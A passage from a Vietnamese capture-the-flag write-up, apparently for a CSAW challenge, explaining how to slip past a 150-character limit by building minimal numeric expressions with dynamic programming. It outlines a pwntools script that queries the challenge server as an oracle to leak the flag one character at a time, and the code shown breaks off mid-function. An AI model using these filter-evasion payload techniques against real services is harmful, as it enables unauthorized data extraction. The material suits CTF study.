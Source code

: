 #### **Bước 3:** Vượt qua giới hạn 150 ký tự - Tối ưu hóa Payload

Đây là phần khó nhất. Để lấy ký tự thứ 27 từ cuối (`{`), chúng ta cần tạo ra chỉ số `-27`, tương đương với việc tạo ra số `26`.

*   **Cách tiếp cận ngây thơ:** `1+1+1...+1` (26 lần). Payload này sẽ dài hàng trăm ký tự và chắc chắn bị cắt.
*   **Cách tiếp cận tốt hơn:** Dùng luỹ thừa của 2: `16+8+2`. Vẫn còn dài.
*   **Cách tiếp cận tối ưu (sử dụng cả `+` và `*`):** Chúng ta nhận thấy rằng `26 = 2 * 13`. Tạo payload cho `2` và `13` rồi nhân chúng lại sẽ ngắn hơn nhiều. Vấn đề này có thể được giải quyết bằng **Quy hoạch động (Dynamic Programming)**. Script giải sẽ tính toán trước cách tạo ra mỗi số từ 0 đến 100 bằng chuỗi payload ngắn nhất có thể, bằng cách thử cả phép cộng và phép nhân ở mỗi bước.

Hàm `build_optimized_payloads` trong script thực hiện chính xác điều này. Nó tạo ra một "bảng tra cứu" các payload số hiệu quả nhất.

### **Script**

1.  **`build_optimized_payloads(100)`**: Tính toán trước các payload ngắn nhất để tạo số từ 0-99.
2.  **`solve()`**:
    *   Kết nối đến server.
    *   **Bước 1**: Chạy oracle `c+'a'+c` để tìm `WARPED_QUOTE`.
    *   **Bước 2 & 3**: Chạy oracle `WARPED_QUOTE+c+WARPED_QUOTE` để xây dựng `reverse_map` và `warp_map`.
    *   **Bước 4**: Bắt đầu một vòng lặp để lấy flag:
        *   Đối với mỗi chỉ số `i` từ 1 đến 100:
        *   Tạo payload gốc, ví dụ `spiral[~(<payload cho i-1>)]`.
        *   Sử dụng `warp_map` để mã hóa payload gốc này thành `warped_payload`.
        *   Gửi `warped_payload` đến server.
        *   Nhận và lưu lại ký tự trả về.
        *   Vòng lặp dừng lại khi server trả về `no galaxy` (nghĩa là đã đi hết chiều dài của flag).
    *   Đảo ngược chuỗi ký tự đã thu thập và có flag.

```python
from pwn import *
import math

HOST = "chals.ctf.csaw.io"
PORT = 21009

OPTIMIZED_PAYLOADS = {}

def build_optimized_payloads(max_n):
    log.info(f"Pre-calculating shortest payloads for numbers up to {max_n}...")
    
    # Base cases
    one_payload = "('a'<'b')"
    OPTIMIZED_PAYLOADS[0] = "('a'>'b')"
    OPTIMIZED_PAYLOADS[1] = one_payload

    for i in range(2, max_n + 1):
        # Lựa chọn 1: Tạo bằng phép cộng (i-1) + 1
        payload_add = f"({OPTIMIZED_PAYLOADS[i-1]}+{one_payload})"
        min_len = len(payload_add)
        best_payload = payload_add

        # Lựa chọn 2: Thử tất cả các khả năng nhân j * k = i
        for j in range(2, int(math.sqrt(i)) + 1):
            if i % j == 0:
                k = i // j
                payload_mult = f"({OPTIMIZED_PAYLOADS[j]}*{OPTIMIZED_PAYLOADS[k]})"
                if len(payload_mult) < min_len:
                    min_len = len(payload_mult)
                    best_payload = payload_mult
```